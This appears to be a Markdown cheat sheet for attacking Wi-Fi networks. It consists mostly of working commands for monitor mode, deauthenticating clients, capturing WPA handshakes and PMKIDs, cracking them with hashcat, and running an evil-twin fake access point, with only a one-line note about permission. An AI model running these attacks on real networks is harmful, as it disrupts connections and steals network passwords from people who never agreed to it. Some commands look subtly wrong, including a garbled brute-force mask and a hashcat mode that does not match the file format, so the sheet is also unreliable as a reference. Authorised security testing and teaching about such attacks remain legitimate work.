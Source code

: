 ```yaml
---
layout: default
title: cheat_sheet_WiFi_Hacking
---
```


# 🧰 Wi-Fi Hacking Cheat Sheet

This cheat sheet covers essential Wi-Fi penetration testing techniques, including reconnaissance, handshake capture, and password cracking using `aircrack-ng`, `hcxtools`, and `hashcat`.

---

## 🔧 1. Interface Setup

### 🛑 Stop Network Services
```bash
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```

### ▶️ Start Network Services
```bash
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```

### 🛰️ Set Interface to Monitor Mode
```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```
> 💡 Replace `wlan0` with your actual network interface name (check with `ip a` or `iwconfig`).

---

## 🔍 2. Reconnaissance

### 🌐 Scan All Networks
```bash
sudo airodump-ng wlan0
```

### 🎯 Target Specific Access Point
```bash
sudo airodump-ng --bssid <BSSID> -c <CHANNEL> -w capture_file wlan0
```
> Replace `<BSSID>` with the AP's MAC address, and `<CHANNEL>` with the channel number.

---

## 💥 3. Capturing Handshakes

### ❌ Deauthentication Attack (Force Client Reconnect)
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0 -c <CLIENT>
```

### 👻 Passive Capture Without Disconnecting Clients
```bash
sudo hcxdumptool -i wlan0 -w dumpfile.pcapng
```

---

## 🔄 4. Converting Capture Files

### 📦 From `.cap` to `.22000`
```bash
hcxpcapngtool -o wifi_hash.22000 -E essidlist.txt capture_file.cap
```

### 🧪 From `.pcapng` to `.22000`
```bash
hcxpcapngtool -o hash.22000 -E essidlist.txt dumpfile.pcapng
```

---

## 🔓 5. Cracking Passwords

### 📚 Using Dictionary Attack
```bash
hashcat -m 22000 -a 0 hash.22000 /path/to/wordlist.txt --force --show
```

### 🧮 Using Brute Force Attack
```bash
hashcat -m 22000 -a 3 hash.22000 ?d?d?l?u`!`$?d?d?d --force --show
```
> 🗂️ Replace `/path/to/wordlist.txt` with the actual path to your wordlist file.

---

## 🧠 6. Additional Attacks

### 🧬 PMKID Attack (WPA2/WPA3)
```bash
sudo hcxdumptool -i wlan0 -o pmkid.pcapng --enable_status 3
sudo hcxpcapngtool -o pmkid_hash.22000 pmkid.pcapng
hashcat -m 16800 pmkid_hash.22000 /path/to/wordlist.txt --force --show
```

### 👿 Evil Twin Attack (Fake Access Point)
```bash
sudo airbase-ng -e "FakeAP" -c <CHANNEL> wlan0
```

---

## 📎 Notes

- Make sure your wireless adapter supports monitor mode and packet injection.
- Consider using `airmon-ng check kill` before monitor mode if services interfere.
- Always run these commands responsibly, legally, and with permission.

---
